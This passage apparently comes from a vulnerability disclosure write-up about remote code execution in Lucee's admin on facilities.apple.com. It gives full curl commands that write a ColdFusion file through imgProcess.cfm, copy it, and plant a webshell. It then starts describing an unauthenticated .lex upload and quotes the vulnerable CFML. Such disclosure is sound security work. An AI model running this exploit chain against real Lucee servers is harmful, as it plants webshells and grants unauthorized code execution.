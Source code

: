 This attempt won't trigger WAF because we're not doing path traversal here.

### Steps to get a shell

- Create a file named  `server.<cffile action=write file=#Url['f']# output=#Url['content']#>.cfm` with the content `"#stText.x.f#"` (to match the regex). We'll URL encode the filename because the backend (tomcat) won't like certain characters.

`curl -X POST 'https://facilities.apple.com/lucee/admin/imgProcess.cfm?file=%2F%73%65%72%76%65%72%2e%3c%63%66%66%69%6c%65%20%61%63%74%69%6f%6e%3d%77%72%69%74%65%20%66%69%6c%65%3d%23%55%72%6c%5b%27%66%27%5d%23%20%6f%75%74%70%75%74%3d%23%55%72%6c%5b%27%63%6f%6e%74%65%6e%74%27%5d%23%3e%2e%63%66%6d'  --data 'imgSrc="#stText.Buttons.save#"'`

- Copy the filename to prepare the code execution 

`curl 'http://facilities.apple.com/lucee/admin/admin.search.index.cfm?dataDir=/full/path/lucee/context/rootxharsh/&LUCEEARCHIVEZIPPATH=/full/path/lucee/temp/admin-ext-thumbnails/__/'`

- Write shell to trigger code execution 

`curl https://facilities.apple.com/lucee/rootxharsh/searchindex.cfm?f=PoC.cfm&content=cfm_shell`

- Access webshell - https://facilities.apple.com/lucee/rootxharsh/PoC.cfm

![PoC](screenshots/poc.png)

## But, what about other hosts?

Because `imgProcess.cfm` wasn't available in older versions, we had to find some other way to get RCE on the other two hosts. We came across another neat way ;).

### Unauthenticated .lex file upload

`ext.applications.upload.cfm` is partially unauthenticated. The code snippet is fairly simple. We're required to pass the `extfile` form parameter with filename's extension set to `.lex` otherwise we'll get an exception. 

```cfm
<cfif not structKeyExists(form, "extfile") or form.extfile eq "">
	...
</cfif>
<!--- try to upload (.zip and .re) --->
<cftry>
	<cffile action="upload" filefield="extfile" destination="#GetTempDirectory()#" nameconflict="makeunique" />
	<cfif cffile.serverfileext neq "lex">
		<cfthrow message="Only .lex is allowed as extension!" />
	</cfif>
	<cfcatch>
		...
	</cfcatch>
</cftry>

<cfset zipfile = "#rereplace(cffile.serverdirectory, '[/\\]$', '')##server.separator.file##cffile.serverfile#" />
```
